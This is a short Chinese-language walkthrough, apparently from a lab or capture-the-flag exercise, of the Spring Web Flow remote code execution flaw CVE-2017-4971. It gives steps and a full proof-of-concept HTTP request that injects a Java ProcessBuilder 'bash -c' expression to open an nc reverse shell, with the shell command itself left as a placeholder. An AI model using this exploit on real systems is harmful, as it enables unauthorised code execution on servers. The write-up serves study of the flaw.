 # [Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）作者：]()[xiajibaxie](https://github.com/xiajibaxie)

## [一，漏洞描述]()

 Spring Web Flow 在 Model 的数据绑定由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞。

## [二，影响版本]()

Spring Web Flow 2.4.0 – 2.4.4

## [三，利用流程]()

1选择左侧用户名登陆

 ![1](./1.jpg)

2访问路径 `/hotels/1` 点击 `Book Hotel` 

![2](./2.jpg)

 3填写相应信息后点击 `Proceed` 

![3](./3.jpg)

4点击 `Confirm` 抓包

![4](./4.jpg)

5将 nc 的反弹 shell 转换成 url 编码

![5](./5.jpg)

6.发送 poc 反弹 shell 获得 flag 

```
POST /hotels/booking?execution=e2s2 HTTP/1.1
Host: 10.10.11.20:43156
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.20:43156/hotels/booking?execution=e2s2
Cookie: JSESSIONID=62C4972DBE024CCE5D86154E13B17537
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

_eventId_confirm=&_csrf=13d9614f-d52c-4a5c-be7c-49b1947225a9&_(new java.lang.ProcessBuilder("bash","-c","url转码poc")).start()=vulhub
```

![6](./6.jpg)



## [参考]()

https://www.jianshu.com/p/ad391cb9a95b

https://paper.seebug.org/322/
